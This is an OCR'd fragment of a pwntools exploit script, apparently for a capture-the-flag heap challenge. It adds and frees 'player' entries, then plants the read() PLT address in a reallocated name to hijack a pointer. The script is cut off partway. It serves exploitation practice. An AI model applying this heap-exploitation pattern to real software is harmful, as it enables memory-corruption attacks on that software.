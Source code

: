 	elf=ELF('main')

	pwnlib.gdb.attach(r)

	read_plt=elf.plt['read']

	def add_player(name):

		r.recvuntil("Your choice: ")

		r.sendline('1')

		r.recvuntil("Enter player name: ")

		r.sendline(name)

		r.recvuntil("Enter attack points: ")

		r.sendline('1')

		r.recvuntil("Enter defense points: ")

		r.sendline('2')

		r.recvuntil("Enter speed: ")

		r.sendline('3')

		r.recvuntil("Enter precision: ")

		r.sendline('4')

	def delete_player(index):

		r.recvuntil("Your choice: ")

		r.sendline('2')

		r.recvuntil("Enter index: ")

		r.sendline(index)

	def edit_player_name(name):

		r.recvuntil("Your choice: ")

		r.sendline("4")

		r.recvuntil("Your choice: ")

		r.sendline("1")

		r.recvuntil("Enter new name: ")

		r.sendline(name)

	add_player('a'*32)

	add_player('b'*32)

	delete_player('0')

	delete_player('1')

	add_player(p64(read_plt)+'a'*(0x17-len(p64(read_plt))))
